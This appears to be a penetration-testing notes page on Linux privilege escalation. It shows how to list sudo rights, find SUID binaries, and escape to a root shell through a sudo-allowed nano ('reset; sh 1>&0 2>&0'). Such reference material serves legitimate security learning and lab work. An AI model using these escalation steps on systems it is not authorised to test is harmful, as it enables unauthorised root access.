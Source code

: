 # Privilege Escalation

 * [Resources](#resources)
 * [Finding Escalation Vectors](#finding-privilege-escalation-vectors)
   * [List all commands you can use sudo with](#list-all-commands-you-can-use-sudo-with)
   * [Find Binaries with SUID bit set](#find-binaries-with-suid-bit-set)

## Resources
|URL|Descriptions|
|---|---|
|[GTFO Bins](https://gtfobins.github.io/)|GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.|
|[Spawning a TTY Shell](https://netsec.ws/?p=337)|Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell.|


## Privilege Escalation Vectors

### List all commands you can use sudo with

List the allowed (and forbidden) commands for the invoking user ([sudo(8) - Linux man page](https://linux.die.net/man/8/sudo))

```bash
sudo -l
```

<details>
<summary>Read More</summary>

**Example**

```bash
$ sudo -l
Matching Defaults entries for user on host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User may run the following commands:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

 * [gtfobins/nano](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
```

Press `^R` (`ctrl` + `R`) to `Read Files`

Press `^X` (`ctrl` + `X`) to `Execute Command`

```bash
Command to execute: reset; sh 1>&0 2>&0
```

</details>

### Find binaries with setuid bit set

Find all files which have the [setuit bit](https://www.computerhope.com/jargon/s/setuid.htm) set

```bash
find / -perm -4000
```

**Example**

 * [Mr Robot - Privilege Escalation II](../walkthroughs/mr-robot.md#privilege-escalation-ii)